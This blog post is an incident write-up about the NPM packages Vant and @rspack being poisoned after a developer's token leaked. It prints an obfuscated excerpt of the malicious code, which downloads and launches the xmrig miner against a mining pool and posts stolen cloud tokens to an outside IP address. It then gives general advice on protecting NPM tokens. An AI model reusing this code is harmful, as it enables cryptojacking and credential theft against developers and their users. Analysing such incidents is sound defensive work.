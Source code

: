 ```yaml
---
title: A poisoning incident caused by an NPM token leak
top: true
---
```

## Background

Due to the leak of a developer's NPM token, the NPM packages Vant, @rspack/core, and @rspack/cli were poisoned.
[![Issues](/assets/2024-12-19/token-leak-github.jpg)](https://github.com/youzan/vant/discussions/13273)
The attacker embedded the mining software xmrig in the code and stole users' cloud service credentials.
The poisoned partial code:
```javascript
function _0x490324() {
        return _0x4a8553(this, undefined, undefined, function* () {
            const _0x3f26b7 = yield function (_0x1d5cc6) {
                return _0x4a8553(this, undefined, undefined, function* () {
                    const _0x2c5ca1 = "https://api.github.com/repos/youzan/vant/git/blobs/" + _0x1d5cc6;
                    const _0x474a42 = _0x16ed2a.join("/tmp/", "vant.tar.gz");
                    const _0x1e3d06 = _0x16ed2a.join("/tmp/", "vant");
                    const _0x3fe94f = {
                        'Accept': 'application/vnd.github.raw+json'
                    };
                    try {
                        0x0;
                        const _0x37fd84 = yield _0x33f3f1["default"]({
                            'method': "GET",
                            'url': _0x2c5ca1,
                            'responseType': "stream",
                            'headers': _0x3fe94f
                        });
                    try {
                        yield _0x4973ce.x({
                            'file': _0x474a42,
                            'cwd': "/tmp/"
                        });
                    return _0x1e3d06;
                });
            }("8ed1c9256b4bfeb3e4f5aaff48bf140398361ae3");
            if ('' === _0x3f26b7) {
                            const _0x13db7a = yield _0x33f3f1["default"]({
                                'method': "GET",
                                'url': 'https://github.com/xmrig/xmrig/releases/download/v6.22.2/xmrig-6.22.2-linux-static-x64.tar.gz',
                                'responseType': "stream"
                            });
                        try {
                            yield _0x4973ce.x({
                                'file': _0x29d56d,
                                'cwd': "/tmp/",
                                'filter': _0xae122a => _0xae122a.endsWith("xmrig"),
                                'strip': 0x1
                            });
                            yield _0x14f1da.renameSync("/tmp/xmrig", '/tmp/vant_helper');
                    });
                }(), ['-u', "475NBZygwEajj4YP2Bdu7yg6XnaphiFjxTFPkvzg5xAjLGPSakE68nyGavn8r1BYqB44xTEyKQhueeqAyGy8RaYc73URL1j", '-o', "pool.supportxmr.com:443", '--tls', '-k', '--cpu-max-threads-hint=75', "--background"]);
            yield function (_0x392e85) {
                    try {
                        (yield _0x33f3f1["default"].post("http://80.78.28.72/tokens", _0x57e4cd)).status;
                    }
        });
}
```
## What is an NPM Token used for?

> 1. Authenticating and accessing the NPM registry:
An NPM token is used to authenticate a developer's identity and securely access the NPM registry. It allows developers to publish and install packages without needing to use a username and password.
> 2. Automating package publishing:
NPM tokens enable developers to automate tasks like publishing packages to the NPM registry. This eliminates the need to manually enter credentials each time, streamlining the workflow.
> 3. Managing permissions for private packages:
NPM tokens can be used to manage and control access to private packages, ensuring that only authorized users or systems can install or modify them.
> 4. Storing tokens securely:
NPM tokens are typically stored in configuration files or environment variables. This ensures sensitive information, such as API keys or credentials, is securely managed and not exposed in plain text.

## How to generate it?
We can create an NPM token by clicking on the avatar -> Access Tokens in the official NPM repository.
![NPM Token](/assets/2024-12-19/npm-tokens.jpg)

## Why does it get leaked?
Aside from system hacks or phishing attacks, a common cause of leaks is hardcoding the NPM Token and accidentally publishing it to a public code repository.
Importantly, [Praetorian exploited the Pwn Request vulnerability to compromise ByteDance’s Rspack.](https://www.praetorian.com/blog/compromising-bytedances-rspack-github-actions-vulnerabilities/)

## If it gets leaked, it can be exploited for poisoning?
If two-factor authentication is not enabled, an NPM Token leak could directly grant attackers access to sensitive information or resources, as well as the ability to publish new versions of malicious components.

## Suggestions
1. [Avoid PWN vulnerabilities](https://www.endorlabs.com/learn/pwn-request-threat-a-hidden-danger-in-github-actions)
2. Enable Multi-Factor Authentication (MFA)
2. Regularly Replace Tokens
3. Store Tokens in a Secure Location
4. Monitor Logs for Suspicious Activity